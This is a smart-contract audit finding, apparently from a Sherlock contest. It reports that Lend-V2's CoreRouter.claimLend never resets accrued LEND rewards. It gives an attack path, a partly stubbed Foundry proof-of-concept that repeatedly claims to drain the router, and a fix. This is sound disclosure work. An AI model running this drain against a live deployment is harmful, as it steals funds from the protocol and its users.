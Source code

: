 Scrawny Raisin Cow

High

# LEND Accruals Not Reset After Claim

### Summary

The missing accrual reset in CoreRouter's claimLend function will cause a complete loss of funds for the protocol as an attacker will repeatedly claim the same accrued LEND rewards without having their accrual balance reset

### Root Cause

In [CoreRouter.sol:402](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L402)  there is a missing reset of the user's lendAccrued value after transferring tokens to the user. The function calls grantLendInternal() to transfer tokens but never updates the storage to reflect that the rewards have been claimed . 

### Internal Pre-conditions

1 - User needs to have legitimate LEND rewards accrued at least once through staking or borrowing

2- CoreRouter contract needs to have LEND tokens in its balance to be at least equal to the accrued rewards

3- The LEND rewards distribution system to be functioning normally

### External Pre-conditions

None

### Attack Path

1- Attacker stakes or borrows to accrue a legitimate amount of LEND rewards

2- Attacker calls coreRouter.claimLend([attacker], [lToken], true, true) to claim their accrued LEND rewards

3- LEND tokens are transferred to the attacker via grantLendInternal() but lendAccrued[attacker] is never reset to 0

4- Attacker repeatedly calls claimLend() with the same parameters

5- Each call transfers the same amount of LEND tokens to the attacker

6 -Attacker continues until the CoreRouter's LEND balance is drained

### Impact

The protocol suffers a complete loss of all LEND token reserves allocated for rewards. The attacker gains multiple times their entitled rewards without providing additional value to the protocol

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity ^0.8.23;

import "forge-std/Test.sol";
import "../src/LayerZero/CoreRouter.sol";
import "../src/LayerZero/LendStorage.sol";
import "../src/LToken.sol";

contract LendClaimExploitTest is Test {
    CoreRouter public coreRouter;
    address public attacker = address(0x1);
    LToken public lToken;
    
    function setUp() public {
        // Setup code would initialize protocol contracts
        // ...
        
        // Give attacker some initial stake to accrue rewards
        vm.startPrank(attacker);
        // Supply tokens to start accruing LEND
        coreRouter.supply(1 ether, address(someToken));
        vm.stopPrank();
        
        // Fast forward time to accrue rewards
        vm.warp(block.timestamp + 7 days);
    }
    
    function testRepeatedClaimLendExploit() public {
        // Initial balance of LEND in the CoreRouter
        address lendToken = LendtrollerInterfaceV2(coreRouter.lendtroller()).getLendAddress();
        uint256 initialRouterBalance = IERC20(lendToken).balanceOf(address(coreRouter));
        
        // Create the arrays needed for the claimLend function
        address[] memory holders = new address[](1);
        holders[0] = attacker;
        
        LToken[] memory lTokens = new LToken[](1);
        lTokens[0] = lToken;
        
        vm.startPrank(attacker);
        
        // First legitimate claim
        coreRouter.claimLend(holders, lTokens, true, true);
        uint256 attackerBalanceAfterFirstClaim = IERC20(lendToken).balanceOf(attacker);
        
        // Should have received some LEND tokens
        assertGt(attackerBalanceAfterFirstClaim, 0, "Attacker should have received LEND tokens");
        
        // Second claim without accruing any new rewards
        coreRouter.claimLend(holders, lTokens, true, true);
        uint256 attackerBalanceAfterSecondClaim = IERC20(lendToken).balanceOf(attacker);
        
        // Should have received the same amount again
        assertEq(
            attackerBalanceAfterSecondClaim,
            attackerBalanceAfterFirstClaim * 2,
            "Attacker should have received the same amount of LEND tokens again"
        );
        
        // Repeat multiple times to drain the contract
        for (uint i = 0; i < 10; i++) {
            coreRouter.claimLend(holders, lTokens, true, true);
        }
        
        // Verify that the attacker has drained a significant amount
        uint256 finalRouterBalance = IERC20(lendToken).balanceOf(address(coreRouter));
        assertLt(
            finalRouterBalance,
            initialRouterBalance / 2,
            "Router should have lost a significant amount of LEND tokens"
        );
        
        vm.stopPrank();
    }
}
```

### Mitigation

After transferring LEND tokens to the user in the claimLend function, add a line to reset the accrued balance :

```solidity
function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {
    // ... existing code ...
    
    for (uint256 j = 0; j < holders.length;) {
        uint256 accrued = lendStorage.lendAccrued(holders[j]);
        if (accrued > 0) {
            grantLendInternal(holders[j], accrued);
            // Add this line to reset the accrued balance
            lendStorage.resetLendAccrued(holders[j]);
        }
        unchecked {
            ++j;
        }
    }
}
```